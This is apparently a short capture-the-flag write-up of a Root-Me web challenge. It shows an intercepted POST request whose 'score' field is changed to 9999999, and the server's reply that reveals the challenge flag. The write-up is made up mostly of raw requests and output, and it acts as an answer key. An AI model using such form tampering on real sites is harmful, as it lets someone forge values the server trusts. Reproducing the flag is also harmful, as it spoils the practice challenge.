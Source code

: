 # HTTP - POST



Initial page seems like generating some random number < 999999 -> Request

POST /web-serveur/ch56/ HTTP/1.1 Host: challenge01.root-me.org User-Agent: Mozilla/5.0 (X11; Linux x86\_64; rv:91.0) Gecko/20100101 Firefox/91.0 Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,_/_;q=0.8 Accept-Language: en-US,en;q=0.5 Accept-Encoding: gzip, deflate Content-Type: application/x-www-form-urlencoded Content-Length: 36 Origin: http://challenge01.root-me.org Connection: close Referer: http://challenge01.root-me.org/web-serveur/ch56/ Cookie: \_ga\_SRYSKX09J7=GS1.1.1661155511.14.0.1661155511.0.0.0; \_ga=GA1.1.536088429.1661133467 Upgrade-Insecure-Requests: 1

score=number\&generate=Give+a+try%21

\->

modified Request

POST /web-serveur/ch56/ HTTP/1.1 Host: challenge01.root-me.org User-Agent: Mozilla/5.0 (X11; Linux x86\_64; rv:91.0) Gecko/20100101 Firefox/91.0 Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,_/_;q=0.8 Accept-Language: en-US,en;q=0.5 Accept-Encoding: gzip, deflate Content-Type: application/x-www-form-urlencoded Content-Length: 36 Origin: http://challenge01.root-me.org Connection: close Referer: http://challenge01.root-me.org/web-serveur/ch56/ Cookie: \_ga\_SRYSKX09J7=GS1.1.1661155511.14.0.1661155511.0.0.0; \_ga=GA1.1.536088429.1661133467 Upgrade-Insecure-Requests: 1

score=9999999\&generate=Give+a+try%21

\->

```
   <p>Wow, 9999999! How did you do that? :o</p><p>Flag to validate the challenge: <strong>H7tp_h4s_N0_s3Cr37S_F0r_y0U
```



HTTP GET param <-> HTTP POST data where data is called as form while data can be sent by xml or json
